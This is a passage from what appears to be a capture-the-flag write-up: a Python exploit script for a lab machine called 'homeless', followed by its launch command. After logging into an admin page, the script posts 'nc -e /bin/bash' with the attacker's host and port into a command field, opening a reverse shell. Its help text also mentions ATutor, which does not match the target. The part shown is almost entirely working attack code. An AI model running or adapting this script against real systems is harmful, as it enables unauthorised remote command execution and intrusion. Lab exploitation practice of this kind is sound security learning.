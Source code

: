 ```python
    if re.search(r"Well.*done",res.text):
        print("[+] Logged in successfully")
        return res.cookies
    else:
        return None

def revshell(target, lhost, lport, cookies, proxy):
    url = geturl(target,"admin")
    data = {"command": "nc -e /bin/bash {} {}".format(lhost,lport), "submit": "Invia richiesta"}
    try:
        requests.post(url, cookies=cookies, data=data, proxies=proxy, allow_redirects=False, verify=False, timeout=2)
    except requests.exceptions.ReadTimeout:
        return True
    except:
        raise


def exploit(target, lhost, lport, proxy):
    cookies = login(target, proxy)
    if not cookies:
        print("[-] Could not login")
        sys.exit()
    if setup_listener(lport):
        try:
            revshell(target, lhost, lport, cookies, proxy)
        except:
            print("[+] Reverse shell failed to open")
        
def main():
    parser = argparse.ArgumentParser(description='Upload a shell in ATutor')
    
    parser.add_argument(
        '-H', '--lhost', required=True, type=str, help='Local Listener IP Address')
    parser.add_argument(
        '-P', '--lport', required=True, type=str, default="443", help='Local Listener Port')
    parser.add_argument(
        '-x', '--proxy', required=False, action="store_true", help='Proxy (for debugging)')
    parser.add_argument(
        '-t', '--target', required=True, type=str, default=None, help='Homeless IP or domain')

    args = parser.parse_args()
    exploit(args.target, args.lhost, args.lport, proxy(args.proxy))

if __name__ == '__main__':
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    main()
```

Launch like:
```bash
python exploit.py -t homeless.local -H 192.168.56.1 -P 444 -x
```
